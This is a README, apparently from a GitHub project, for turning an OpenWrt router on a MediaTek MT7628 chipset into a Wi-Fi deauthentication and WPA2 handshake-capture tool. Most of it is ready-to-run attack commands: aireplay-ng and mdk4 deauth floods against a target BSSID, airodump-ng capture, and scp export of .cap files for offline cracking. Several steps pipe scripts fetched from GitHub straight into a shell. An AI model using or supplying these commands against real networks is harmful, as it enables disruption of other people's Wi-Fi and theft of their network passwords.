 # Requirements 
- Mediatek MT7628* chipset router
- Mipsel-24kc package
- Openwrt firmware version 22.03.*

# Notes
- Functions similar on linux aircrack-ng aireplay-ng and mdk4
- Can also capture WPA2 WPAWPA2PSK Handshakes
- Doesn't work on openwrt version 23.*.* up

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```

# Auto Install
```sh
opkg update && wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install | sh
````

# Using mdk4
> install mdk4
```sh
opkg update && wget -O mdk4.ipk https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mdk4_4.2-5_mipsel_24kc.ipk && opkg install mdk4.ipk
```

# Using aireplay-ng 
> run monitor mode
```sh
sh wlan0mon && airodump-ng wlan0mon
```
> ctrl + c
```sh
aireplay-ng wlan0mon --deauth 0 -a (Mac BSSID)
```
# Monitor Mode
```sh
wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/wlan0mon | sh
```
# Run
```sh
sh wlan0mon
```
# Using mdk4
```sh
sh wlan0mon && mdk4 wlan0mon d
```
## Manual
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`iw phy phy0 interface add wlan0mon type monitor`

`ip link set wlan0mon up`

`airodump-ng wlan0mon`

`aireplay-ng wlan0mon --deauth 0 -a 32:AA:E4:18:90:45 --ignore-negative-one`

- -a | bssid -a (32:AA:E4:18:90:45)

## Export handshake file from openwrt to local storage
> [!Tip]
> install SFTP server in both system in order that SCP to work

> Openwrt: `opkg install openssh-sftp-server`

> Linux/Termux: `apt install openssh-sftp-server`

- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [!Tip]
 > * .cap - export any name with .cap file format
